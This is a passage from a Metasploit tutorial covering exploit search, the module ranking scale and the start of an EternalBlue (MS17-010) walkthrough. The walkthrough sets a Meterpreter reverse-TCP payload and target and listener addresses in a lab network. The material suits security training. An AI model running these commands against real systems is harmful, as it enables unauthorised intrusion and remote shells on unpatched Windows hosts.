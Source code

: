 ```bash
msf6 > search type:exploit platform:windows
```

You’ll get results like:

```
#  Name                                      Disclosure Date  Rank    Check  Description
-  ----                                      ---------------  ----    -----  -----------
2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
```

To use a module from search results:

```bash
msf6 > use 2
```

---

## Exploit Rankings

Each exploit has a rank that reflects its reliability:

- **Excellent** – Always works, very stable.
    
- **Great** – Reliable but may need some setup.
    
- **Good** – Often works.
    
- **Normal** – Works under some conditions.
    
- **Average** – May require tuning, unstable.
    
- **Low** – Unreliable or crash-prone.
    
- **Manual** – Needs manual steps.
    

Source: [Metasploit Wiki - Exploit Ranking](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

---

## Example Module Usage (EternalBlue)

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

Default payload is selected:

```
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

Set required options:

```bash
set RHOSTS 10.10.29.187
set LHOST 10.10.220.191
set LPORT 4444
```
